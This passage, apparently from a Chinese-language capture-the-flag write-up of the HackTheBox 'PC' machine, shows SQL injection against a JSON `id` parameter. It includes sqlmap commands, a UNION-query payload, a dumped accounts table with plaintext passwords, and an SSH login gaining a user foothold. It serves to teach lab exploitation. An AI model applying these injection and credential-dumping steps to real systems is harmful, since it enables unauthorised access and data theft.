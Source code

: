峰回路转，某次输错 `id` 参数的时候发现了报错信息，猛然意识到这里会不会存在注入？于是试图抓一下 request 包交由 sqlmap 一下。但是在抓本地的包又踩到一个意料之外的坑，详情请见下文的注释，这里就不深入展开了<sup>[⑥](#Burp与SwitchOmega-如何抓本地包)</sup>。

![意外发现抱错](https://pic.imgdb.cn/item/64aa852a1ddac507cc5f7b01.png)

我将抓到的 request 包保存为 `id.req` 文件保存，然后使用 `*` 标记 `id` 参数<sup>[⑦](#sqlmap-自定义注入标记)</sup>。
在确认存在 sql 注入之后，直接使用 `--dump` 参数获取账号密码，最终取得靶机的基础立足点。

```
$ sqlmap -r id.req --dbms=sqlite --batch
---
Parameter: JSON #1* ((custom) POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODc4NDY0NDN9.12U74eYXtA48KQwH7RIy
gyxEQ850zsBXgoWNsnbNLuw"}],"data":[{"id":"769 UNION ALL SELECT CHAR(113,120,118,107,113)||CHAR(100,77,102,114,78,99,111,113,116,70,113,90,79,68,104,80,115,71
,77,117,78,108,114,109,105,120,97,100,117,99,72,99,72,83,115,104,70,65,86,90)||CHAR(113,122,112,106,113)-- Klui"}]}
---

$ sqlmap -r id.req --dump --batch

Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+
```

通过 `ssh` 直接登录 `sau` 用户。

```
$ ssh sau@pc.htb
# HereIsYourPassWord1431
sau@pc:~$ uname
Linux
sau@pc:~$ uname -a
Linux pc 5.4.0-148-generic #165-Ubuntu SMP Tue Apr 18 08:53:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)
sau@pc:~$ sudo -l
[sudo] password for sau: 
Sorry, user sau may not run sudo on localhost.
sau@pc:~$ whoami
sau
sau@pc:~$ 
```
